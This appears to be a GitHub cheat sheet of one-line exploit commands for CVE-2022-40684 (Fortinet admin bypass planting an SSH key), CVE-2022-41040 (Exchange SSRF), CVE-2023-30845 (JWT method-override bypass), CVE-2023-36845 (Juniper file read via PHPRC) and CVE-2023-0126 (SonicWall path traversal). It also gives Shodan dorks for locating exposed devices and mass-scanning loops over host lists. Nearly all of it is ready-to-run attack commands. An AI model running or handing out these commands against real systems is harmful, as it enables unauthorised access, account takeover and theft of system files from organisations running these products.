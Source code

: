 
 ### CVE-2022-40684
##### @h4x0r_dz
```
 ffuf -w "host_list.txt:URL" -u "https://URL/api/v2/cmdb/system/admin/admin" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r
 ```

### CVE-2022-41040
##### @unknown
```
 ffuf -w "urllist.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
### bypasses JWT checking by using the X-HTTP-Method-Override request header!
##### CVE-2023-30845
```
 curl --request POST \
     --header "X-HTTP-Method-Override: PUT" \
     --header "Content-Type: application/json" \
     --data '{"username":"xyz"}' \
     https://my-endpoint.com/api
```
### CVE-2023-36845 - Juniper Firewalls RCE
##### Shodan Dork: title:"Juniper" http.favicon.hash:2141724739
```
curl <TARGET> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'
```
### CVE-2023-0126 - SonicWall SMA1000 - File Read Bug
##### Shodan Dork: title:"Appliance Management Console Login"
###### Rohit Gautam
```
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' && echo $host "is VULN";done
```
